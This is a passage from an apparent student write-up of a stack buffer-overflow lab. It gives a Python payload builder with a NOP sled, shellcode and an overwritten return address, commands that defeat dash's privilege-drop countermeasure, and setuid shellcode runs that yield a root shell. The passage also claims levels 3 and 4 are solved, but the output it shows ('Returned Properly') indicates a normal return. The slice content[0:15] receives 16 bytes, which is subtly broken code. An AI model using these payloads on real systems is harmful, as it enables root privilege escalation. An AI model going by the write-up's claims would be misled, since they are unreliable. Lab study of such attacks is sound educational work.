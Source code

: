 As a result, level 3 is solved:

```console
~/Documents/BufferSetUID/code$ vim exploit.py
~/Documents/BufferSetUID/code$ ./exploit.py
~/Documents/BufferSetUID/code$ ./stack-L3
Input size: 517
==== Returned Properly ====
```

## Task 6: Launching Attack on $64$-bit Program (Level 4)

Using the similar technique as in [Level 2](#task-4-launching-attack-without-knowing-buffer-size-level-2), I deployed the following <code>exploit.py</code> file:

```python
content = bytearray(0x90 for i in range(517))

start = 517 - len(shellcode)
content[start:start + len(shellcode)] = shellcode

ret    = 0xffffe258 + 120 
L = 8
addr = (ret).to_bytes(L, byteorder='little')
content[0 : 15] = addr * 2

with open('badfile', 'wb') as f:
  f.write(content)
```

Note that <code>L</code> is switched to $8$ and the designated return address will be taking $16$ bytes (i.e., the size of two words), considering that the buffer size is $10$.

As a result, level 4 is solved:

```console
~/Documents/BufferSetUID/code$ vim exploit.py
~/Documents/BufferSetUID/code$ ./exploit.py
~/Documents/BufferSetUID/code$ ./stack-L4
Input size: 517
==== Returned Properly ====
```

## Task 7: Defeating <code>dash</code>'s Countermeasure

To begin with, let <code>/bin/sh</code> point back to <code>/bin/dash</code>:

```console
$ sudo ln -sf /bin/dash /bin/sh
```

Compile and run <code>call_shellcode.c</code> with the <code>setuid()</code> system call:

```console
~Documents/BufferSetUID/shellcode$ make setuid
gcc -m32 -z execstack -o a32.out call_shellcode.c
gcc -z execstack -o a64.out call_shellcode.c
sudo chown root a32.out a64.out
sudo chmod 4755 a32.out a64.out
~Documents/BufferSetUID/shellcode$ ./a32.out
# id
uid=0(root) gid=1001(seed) groups=1001(seed),120(docker)
# echo On the Bonnie Bonnie Banks of Loch Lomond
On the Bonnie Bonnie Banks of Loch Lomond
# exit
~Documents/BufferSetUID/shellcode$ ./a64.out
# id
uid=0(root) gid=1001(seed) groups=1001(seed),120(docker)
# whoami
```

[^1]: From Daniel P. Bovet and Marco Cesati, *Understanding the Linux Kernel, Third Edition*, O'Reilly, 2006.
[^2]: A privileged program is one that can give users extra privileges beyond that are already assigned to them. A Set-Root-UID program is a privileged program because it allows users to gain the root privilege during the execution of the programs. For Set-UID programs in UNIX and UNIX-like operating systems, which stands for **set user ID on execution**, the effective <code>uid</code> is the owner of the program, while the real <code>uid</code> is the user of the program. Windows does not have the notion of Set-UID. A different mechanism is used for implementing privileged functionality. A developer would write a privileged program as a service and the user sends the command line arguments to the service using Local Procedure Call.
[^3]: Continue to the next source line in the current (innermost) stack frame. This is similar to <code>step</code>, but function calls that appear within the line of code are executed without stopping. Execution stops when control reaches a different line of code at the original stack level that was executing when you gave the <code>next</code> command.